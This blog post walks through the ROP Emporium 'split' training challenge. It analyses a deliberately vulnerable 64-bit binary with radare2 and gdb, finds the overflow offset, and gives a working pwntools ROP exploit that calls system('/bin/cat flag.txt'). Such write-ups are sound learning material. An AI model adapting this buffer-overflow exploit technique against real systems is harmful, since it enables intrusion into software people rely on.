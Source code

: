 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets disassemble and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.

```
As expected the program segfaulted (crashed),we have a valid crash scenario here,but we are not sure if we have overwritten any registers.So lets attach the binary to gdb and analyze the crash.

Attach the binary to GDB using gdb -q splilit

###### Calculating offset
Generate the unique pattern and send to the program
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}

#### Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

- Offset
- string containing “/bin/cat flag.txt”, 
- Address of system
- pop rdi; ret

#### POP RDI RET

Lets find the address of pop rdi ret

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



--------
Since this challenge only needs 1 argument, we just need to pass the /bin/cat flag.txt string into RDI register. 

------
#### Exploitation 

Now let’s craft the payload.

Junk + pop_rdi + bin_cat + system_plt

First padding offset to the stack pointer and gadget pop rdi; ret; as the /bin/cat flag.txt this will be stored in rdi register and we will just provide the system address and its done.


Full exploit using pwntools:

----
 
#!/usr/bin/python
from pwn import *
 
def main():
    junk = "A" * 40                     # RIP Offset at 40
    cat_flag = p64(0x00601060)          # Radare2 command: izz
    system_plt = p64(0x4005e0)          # objdump -d split | grep system
    pop_rdi = p64(0x0000000000400883)   # python ROPgadget.py --binary split | grep rdi
    p = process("./split")
    payload = junk + pop_rdi + cat_flag + system_plt
   p.sendlineafter(">", payload)
   print p.recvall()
 
if __name__ == "__main__":
    main() ----






w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium



